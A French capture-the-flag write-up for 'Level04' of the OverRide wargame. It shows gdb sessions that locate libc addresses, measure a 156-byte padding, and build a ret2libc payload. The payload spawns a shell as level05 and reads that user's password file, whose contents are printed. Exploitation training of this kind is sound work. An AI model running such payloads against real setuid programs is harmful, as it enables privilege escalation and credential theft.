 # Level04

Création du ret2libc, pour cela nous avons besoin de l'adresse de `system` d'`exit` et de `/bin/sh` dans la libc.
```
$ gdb ./level04
(gdb) b main
(gdb) r
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
...

(gdb) info function system                                                                                                                                    [17/354]
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc map
process 1996
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) quit
```

Pour trouver le padding on va utiliser la même technique que dans le level01.
Mais dans gdb, il faudra mettre une commande pour choper le segfault dans le child: `set follow-fork-mode child`
```
(gdb) set follow-fork-mode child
(gdb) r < <(for x in {A..z}; do echo -n "$x$x$x$x"; done; echo)
[Switching to process 2815]
0x69696969 in ?? ()
(gdb) printf "%d\n", (0x68-'A')*4
156
```
Quand on soustrait l'hexa precedent à l'adresse qui segfault avec le 'A' qui commence, nous donne le padding.

Ensuite on va composer notre payload : padding + system + exit + /bin/sh
```
level04@OverRide:~$ (python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04
Give me some shellcode, k

id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat ~level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
